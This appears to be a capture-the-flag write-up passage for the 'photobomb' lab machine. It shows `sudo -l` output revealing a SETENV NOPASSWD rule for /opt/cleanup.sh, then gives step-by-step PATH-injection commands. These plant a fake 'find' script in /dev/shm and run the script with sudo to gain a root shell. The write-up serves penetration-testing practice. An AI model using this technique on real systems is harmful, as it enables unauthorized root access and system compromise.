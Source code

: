 Viewing sudo permissions with `sudo -l`:

```
sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

* <mark style="color:yellow;">This is an obvious sign to path injection</mark>
* <mark style="color:yellow;">env\_reset and /opt/cleanup.sh is a binary that can run with sudo (root) permissions with NOPASSWD</mark>

### PrivEsc vector

#### Path Injection

View permissions:

```
sudo -l
```

Navigate to globally writeable directory:

```
cd /dev/shm
```

Create malicious file using the name 'find' to masquerade as the `find` binary:

find:

<pre><code><strong>#!/bin/bash
</strong>
bash
</code></pre>

Export Path Variable:

```
export PATH=/dev/shm:$PATH
```

chmod malicous to add executable bit:

```
chmod +x find
```

Use vulnerable sudo permissions to obtain new bash shell with sudo permissions granting root:

```
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh
```
